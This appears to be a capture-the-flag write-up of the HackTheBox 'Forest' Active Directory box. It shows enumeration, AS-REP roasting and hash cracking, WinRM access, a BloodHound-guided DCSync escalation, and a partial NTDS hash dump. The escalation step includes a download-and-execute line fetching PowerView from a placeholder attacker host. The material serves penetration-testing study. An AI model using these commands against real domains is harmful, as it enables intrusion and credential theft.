








# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.91.29

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-05 16:02 BST
Warning: 10.129.91.29 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.91.29
Host is up (0.16s latency).
Not shown: 65510 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
53/tcp    open     domain
88/tcp    open     kerberos-sec
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
389/tcp   open     ldap
445/tcp   open     microsoft-ds
464/tcp   open     kpasswd5
593/tcp   open     http-rpc-epmap
636/tcp   open     ldapssl
3268/tcp  open     globalcatLDAP
3269/tcp  open     globalcatLDAPssl
5985/tcp  open     wsman
7043/tcp  filtered unknown
9389/tcp  open     adws
46337/tcp filtered unknown
47001/tcp open     winrm
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49671/tcp open     unknown
49676/tcp open     unknown
49677/tcp open     unknown
49683/tcp open     unknown
49698/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 694.15 seconds
"
```

```bash
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,7043,9389,46337,47001,49663,49665,49666,49667,49671,49676,49677,49683,49698 -sC -sV 10.129.91.29

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-05 16:17 BST
Stats: 0:00:57 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 65.89% done; ETC: 16:18 (0:00:00 remaining)
Nmap scan report for 10.129.91.29
Host is up (0.16s latency).

PORT      STATE  SERVICE      VERSION
53/tcp    open   domain       Simple DNS Plus
88/tcp    open   kerberos-sec Microsoft Windows Kerberos (server time: 2023-10-05 15:24:41Z)
135/tcp   open   msrpc        Microsoft Windows RPC
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open   ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
5985/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7043/tcp  closed unknown
9389/tcp  open   mc-nmf       .NET Message Framing
46337/tcp closed unknown
47001/tcp open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49663/tcp closed unknown
49665/tcp open   msrpc        Microsoft Windows RPC
49666/tcp open   msrpc        Microsoft Windows RPC
49667/tcp open   msrpc        Microsoft Windows RPC
49671/tcp open   msrpc        Microsoft Windows RPC
49676/tcp open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open   msrpc        Microsoft Windows RPC
49683/tcp open   msrpc        Microsoft Windows RPC
49698/tcp open   msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-05T15:25:36
|_  start_date: 2023-10-05T15:05:38
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-10-05T08:25:33-07:00
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h26m48s, deviation: 4h02m30s, median: 6m47s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.32 seconds
"
```

## Enumerating DNS

### Zone Transfer (Failed)

```bash
dig axfr htb.local @10.129.91.29

"
; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> axfr htb.local @10.129.91.29
;; global options: +cmd
; Transfer failed.
"
```

### Validating Domain

```powershell
dig htb.local @10.129.91.29

"
; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> htb.local @10.129.91.29
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 62764
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
; COOKIE: 1405263b5beeccf3 (echoed)
;; QUESTION SECTION:
;htb.local.			IN	A

;; ANSWER SECTION:
htb.local.		600	IN	A	10.129.91.29

;; Query time: 166 msec
;; SERVER: 10.129.91.29#53(10.129.91.29) (UDP)
;; WHEN: Sat Oct 05 17:05:38 BST 2023
;; MSG SIZE  rcvd: 66
"
```

```powershell
dig forest.htb.local @10.129.91.29

"
; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> forest.htb.local @10.129.91.29
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 13721
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
; COOKIE: aca8fd1c7039eee3 (echoed)
;; QUESTION SECTION:
;forest.htb.local.		IN	A

;; ANSWER SECTION:
forest.htb.local.	3600	IN	A	10.129.91.29

;; Query time: 180 msec
;; SERVER: 10.129.91.29#53(10.129.91.29) (UDP)
;; WHEN: Sat Oct 05 17:05:50 BST 2023
;; MSG SIZE  rcvd: 73
"
```

## LDAP Null/Anonymous Session Binding

```bash
enum4linux -a 10.129.91.29

"
============================= 
|    Users on 10.129.91.29    |
 ============================= 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 866.
index: 0x2137 RID: 0x463 acb: 0x00020015 Account: $331000-VK4ADACQNUCA	Name: (null)	Desc: (null)
index: 0xfbc RID: 0x1f4 acb: 0x00000010 Account: Administrator	Name: Administrator	Desc: Built-in account for administering the computer/domain
index: 0x2369 RID: 0x47e acb: 0x00000210 Account: andy	Name: Andy Hislip	Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount	Name: (null)	Desc: A user account managed by the system.
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0x2352 RID: 0x478 acb: 0x00000210 Account: HealthMailbox0659cc1	Name: HealthMailbox-EXCH01-010	Desc: (null)
index: 0x234b RID: 0x471 acb: 0x00000210 Account: HealthMailbox670628e	Name: HealthMailbox-EXCH01-003	Desc: (null)
index: 0x234d RID: 0x473 acb: 0x00000210 Account: HealthMailbox6ded678	Name: HealthMailbox-EXCH01-005	Desc: (null)
index: 0x2351 RID: 0x477 acb: 0x00000210 Account: HealthMailbox7108a4e	Name: HealthMailbox-EXCH01-009	Desc: (null)
index: 0x234e RID: 0x474 acb: 0x00000210 Account: HealthMailbox83d6781	Name: HealthMailbox-EXCH01-006	Desc: (null)
index: 0x234c RID: 0x472 acb: 0x00000210 Account: HealthMailbox968e74d	Name: HealthMailbox-EXCH01-004	Desc: (null)
index: 0x2350 RID: 0x476 acb: 0x00000210 Account: HealthMailboxb01ac64	Name: HealthMailbox-EXCH01-008	Desc: (null)
index: 0x234a RID: 0x470 acb: 0x00000210 Account: HealthMailboxc0a90c9	Name: HealthMailbox-EXCH01-002	Desc: (null)
index: 0x2348 RID: 0x46e acb: 0x00000210 Account: HealthMailboxc3d7722	Name: HealthMailbox-EXCH01-Mailbox-Database-1118319013	Desc: (null)
index: 0x2349 RID: 0x46f acb: 0x00000210 Account: HealthMailboxfc9daad	Name: HealthMailbox-EXCH01-001	Desc: (null)
index: 0x234f RID: 0x475 acb: 0x00000210 Account: HealthMailboxfd87238	Name: HealthMailbox-EXCH01-007	Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0x2360 RID: 0x47a acb: 0x00000210 Account: lucinda	Name: Lucinda Berger	Desc: (null)
index: 0x236a RID: 0x47f acb: 0x00000210 Account: mark	Name: Mark Brandt	Desc: (null)
index: 0x236b RID: 0x480 acb: 0x00000210 Account: santi	Name: Santi Rodriguez	Desc: (null)
index: 0x235c RID: 0x479 acb: 0x00000210 Account: sebastien	Name: Sebastien Caron	Desc: (null)
index: 0x215a RID: 0x468 acb: 0x00020011 Account: SM_1b41c9286325456bb	Name: Microsoft Exchange Migration	Desc: (null)
index: 0x2161 RID: 0x46c acb: 0x00020011 Account: SM_1ffab36a2f5f479cb	Name: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}	Desc: (null)
index: 0x2156 RID: 0x464 acb: 0x00020011 Account: SM_2c8eef0a09b545acb	Name: Microsoft Exchange Approval Assistant	Desc: (null)
index: 0x2159 RID: 0x467 acb: 0x00020011 Account: SM_681f53d4942840e18	Name: Discovery Search Mailbox	Desc: (null)
index: 0x2158 RID: 0x466 acb: 0x00020011 Account: SM_75a538d3025e4db9a	Name: Microsoft Exchange	Desc: (null)
index: 0x215c RID: 0x46a acb: 0x00020011 Account: SM_7c96b981967141ebb	Name: E4E Encryption Store - Active	Desc: (null)
index: 0x215b RID: 0x469 acb: 0x00020011 Account: SM_9b69f1b9d2cc45549	Name: Microsoft Exchange Federation Mailbox	Desc: (null)
index: 0x215d RID: 0x46b acb: 0x00020011 Account: SM_c75ee099d0a64c91b	Name: Microsoft Exchange	Desc: (null)
index: 0x2157 RID: 0x465 acb: 0x00020011 Account: SM_ca8c2ed5bdab4dc9b	Name: Microsoft Exchange	Desc: (null)
index: 0x2365 RID: 0x47b acb: 0x00010210 Account: svc-alfresco	Name: svc-alfresco	Desc: (null)

Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 881.
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
"
```

### Save the list of enumerated users in users.txt

```
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

### ASREPRoasting

```bash
impacket-GetNPUsers -dc-ip 10.129.91.29 -usersfile users.txt htb.local/

"
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:85b2366507d06e758b6f85cd9860a4e7$55a48c6660753b876ec03d2a6e90d0ad6ddf55d374b114065a9d5f49c7939a88aecc0e383dfc8d37c810992048f3e65d73bf8984d48464a5e1550049dfe409b98ad29d57e7852e225f54901d23cabbdfde2a3157ccf90a6980033d62efbf5e4773013b4a71868978e5d55f1840e3d54675ace8ba4154a6cad7da318b4bc2a9c1cd51f8ba0c6fb231175f4e3c1386d97f8fecbe950bcd4e536ce5b74bf9b618fc9961f2ee930585a492f31d894f1754a891c8282055d633f0cc480278aff602e8e36cf5bb9a4e640deab2c3e98721dc0a281d20d63b3aa7d0a88f19aeec1d80185bc1fc876ccb
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
"
```

## Cracking the Hash

```bash
hashcat -m 18200 --force alfresco.hash /usr/share/wordlists/rockyou.txt

"
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-DO-Regular, 5841/5905 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 134 MB

Dictionary cache building /usr/share/wordlists/rockyou.txt: 33553434 bytes (23.9Dictionary cache building /usr/share/wordlists/rockyou.txt: 100660302 bytes (71.Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

$krb5asrep$23$svc-alfresco@HTB.LOCAL:85b2366507d06e758b6f85cd9860a4e7$55a48c6660753b876ec03d2a6e90d0ad6ddf55d374b114065a9d5f49c7939a88aecc0e383dfc8d37c810992048f3e65d73bf8984d48464a5e1550049dfe409b98ad29d57e7852e225f54901d23cabbdfde2a3157ccf90a6980033d62efbf5e4773013b4a71868978e5d55f1840e3d54675ace8ba4154a6cad7da318b4bc2a9c1cd51f8ba0c6fb231175f4e3c1386d97f8fecbe950bcd4e536ce5b74bf9b618fc9961f2ee930585a492f31d894f1754a891c8282055d633f0cc480278aff602e8e36cf5bb9a4e640deab2c3e98721dc0a281d20d63b3aa7d0a88f19aeec1d80185bc1fc876ccb:s3rvice
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:85b2366507d06e...876ccb
Time.Started.....: Fri Oct  6 03:34:05 2023, (6 secs)
Time.Estimated...: Fri Oct  6 03:34:11 2023, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   669.7 kH/s (9.73ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4096000/14344385 (28.55%)
Rejected.........: 0/4096000 (0.00%)
Restore.Point....: 4079616/14344385 (28.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: s9039554h -> s/nd/0s

Started: Fri Oct  6 03:34:01 2023
Stopped: Fri Oct  6 03:34:13 2023
"
```

### Finding the Credentials

```markdown
username: svc-alfresco
password: s3rvice
```

# Exploitation

## Accessing the Svc-Alfresco Account using WinRM

```bash
evil-winrm -u svc-alfresco -p 's3rvice' -i 10.129.91.29

"
Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami /user

USER INFORMATION
----------------

User Name        SID
================ =============================================
htb\svc-alfresco S-1-5-21-3072663084-364016917-1341370565-1147
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
"
```

# Privilege Escalation

## Bloodhound Ingester using Bloodhound-Python

[https://github.com/dirkjanm/BloodHound.py](https://github.com/dirkjanm/BloodHound.py)

### Collecting Bloodhound information

```bash
sudo python3 bloodhound.py -d htb.local -u svc-alfresco -p 's3rvice' -dc forest.htb.local -c All --zip

"
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: forest.htb.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: forest.htb.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
WARNING: Failed to get service ticket for FOREST.htb.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Done in 00M 48S
INFO: Compressing output into 20231006123120_bloodhound.zip
"
```

## Bloodhound

### Turn on neo4j

If you don’t have neo4j installed, 

```bash
sudo apt install neo4j
```

Execute neo4j

```bash
sudo neo4j start
```

### Turn on Bloodhound

If you don’t have bloodhound installed, 

[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)

Execute Bloodhound

```bash
bloodhound --no-sandbox
```


> Warning: Don’t change the URI of the Neo4j Database
> 

The default login credential is

```bash
username: neo4j
password: neo4j
```

## Uploading Collected Data from Bloodhound-Python

Click “Upload Data”



Select the collected data in `.zip` format.



If the all the file uploads are complete, we can now do some connection analysis

## Find the Path to the Domain Admin

### Input svc-alfresco inside the search



### Disabiling “Special Edge Filtering”

Click on the "Flask” button, which is above the “Analysis” tab



Click the eraser to disable all the special edge filtering (like below)



## Finding Domain Admin

Click “Find all Domain Admins” to find all the domain admins





There’s only one “Domain Admin” account which is “ADMINISTRATOR@HTB.LOCAL”

## Finding the Attack Path

Clicking the “Road” icon to find the attack path


Set the starting node to “SVC-ALFRESCO@HTB.LOCAL” and the target node to “ADMINISTRATOR@HTB.LOCAL”


## Attack Path to the Administrator



## Exploiting through the Attack Path

### Generate username

```bash
net user dae password1 /add
```

### GenericAll to “Exchange Windows Permissions” Group

```powershell
# Upload the PowerView to the memory
iex(new-object net.webclient).downloadstring("http://<attacker ip>:8000/PowerView.ps1")
# Adds a domain user (or group) to an existing domain group
Add-DomainGroupMember -Identity "Exchange Windows Permissions" -Members dae
# or use
net group "Exchange Windows Permissions" dae /add /domain
```

### WriteDACL to DCSync svc-alfresco account to Domain Admins

```powershell
$Pass = ConvertTo-SecureString 'password1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\dae', $Pass)
Add-DomainObjectAcl -TargetIdentity 'htb.local\domain admins' -PrincipalIdentity dae -Credential $Cred -Rights DCSync
```

## Dumping NTDS hashes

```powershell
cme smb 10.129.160.157 -u dae -p 'password1' --ntds

"
SMB         10.129.160.157  445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.160.157  445    FOREST           [+] htb.local\dae:password1 
SMB         10.129.160.157  445    FOREST           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.129.160.157  445    FOREST           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.160.157  445    FOREST           htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
SMB         10.129.160.157  445    FOREST           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.160.157  445    FOREST           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
SMB         10.129.160.157  445    FOREST           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.160.157  445    FOREST           htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.160.157  445    FOREST           htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.160.157  445    FOREST           htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.160.157  445    FOREST           htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.160.157  445    FOREST           htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.160.157  445    FOREST           htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.160.157  445    FOREST           htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.160.157  445    FOREST           htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.160.157  445    FOREST           htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.160.157  445    FOREST           htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
